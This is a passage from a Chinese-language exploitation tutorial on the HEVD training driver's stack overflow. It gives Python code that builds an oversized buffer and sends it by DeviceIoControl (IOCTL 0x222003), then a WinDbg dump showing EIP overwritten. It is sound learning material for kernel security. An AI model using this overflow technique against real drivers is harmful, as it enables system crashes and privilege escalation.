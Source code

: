 ```PYTHON
    hTemplateFile = None

    handle = CreateFileW(lpFileName,
                         dwDesiredAccess,
                         dwShareMode,
                         lpSecurityAttributes,
                         dwCreationDisposition,
                         dwFlagsAndAttributes,
                         hTemplateFile)
                         
    if not handle or handle == -1:
        print "\t[-]Error getting device handle: " + FormatError()
        sys.exit(-1)
        
    print "\t[+]Got device handle: 0x%x" % handle
    return handle
```
接下来是触发漏洞，触发漏洞首先需要IO code，IO code可以从IDA里面获取，也可以照着源码构造。HEVD的stackoverflow的IO code是`0x222003`。知道IO code以后就可以用`DeviceIoControl`来传递IO包去触发漏洞。
```PYTHON
def trigger(hDevice, dwIoControlCode):
    """Create evil buf and send IOCTL"""

    evilbuf = create_string_buffer("A"*0x828+'1'*4+'2'*4)
    lpInBuffer = addressof(evilbuf)
    nInBufferSize = 0x828+8
    lpOutBuffer = None
    nOutBufferSize = 0
    lpBytesReturned = None
    lpOverlapped = create_string_buffer("A"*8)

    pwnd = DeviceIoControl(hDevice,
                                           dwIoControlCode,
                                           lpInBuffer,
                                           nInBufferSize,
                                           lpOutBuffer,
                                           nOutBufferSize,
                                           lpBytesReturned,
                                           lpOverlapped)
    if not pwnd:
        print "\t[-]Error: Not pwnd :(\n" + FormatError()
        sys.exit(-1)
```
运行脚本，系统崩溃退出。在windbg里面，我们可以看到溢出崩溃后的情况。
```C
Win7_x86!IrpDeviceIoCtlHandler+b7 [c:\users\raycp\desktop\hacksysextremevulnerabledriver-master\driver\hacksysextremevulnerabledriver.c @ 208]
8e3dd4f7 8945f8          mov     dword ptr [ebp-8],eax

BUGCHECK_STR:  ACCESS_VIOLATION

EXECUTE_ADDRESS: 32323232

FAILED_INSTRUCTION_ADDRESS: 
+0
32323232 ??    
```
可以看到`eip`被覆盖成了`0x32323232`即输入字符串中的`'2'*4`
